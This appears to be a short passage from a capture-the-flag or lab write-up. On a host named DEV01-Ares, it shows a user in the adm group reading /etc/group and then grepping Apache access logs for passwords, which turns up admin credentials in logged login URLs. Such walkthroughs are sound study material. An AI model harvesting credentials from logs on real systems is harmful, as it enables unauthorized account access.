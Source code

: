 ```bash
```bash
adam@DEV01-Ares:~$ cat /etc/group                                                                                          
root:x:0:                                                                                                                  
daemon:x:1:                                                                                                                
bin:x:2:                                                                                                                   
sys:x:3:                                                                                                                   
adm:x:4:syslog,adam                                                                                                        
```
members of the `adm` group are allowed to read `/var/log`
```bash
adam@DEV01-Ares:~$ grep -i password /var/log/apache2/access.log.*
10.10.14.3 - - [03/Dec/2020:09:06:26 +0000] "GET /login/?username=admin&password=8NJxgU2CtVsJYZE5 HTTP/1.1" 200 625 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0"
10.10.14.3 - - [03/Dec/2020:09:06:26 +0000] "GET /login/?username=admin&password=$@#G34123421 HTTP/1.1" 200 625 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0"
```
![[Pasted image 20240529170325.png]]
```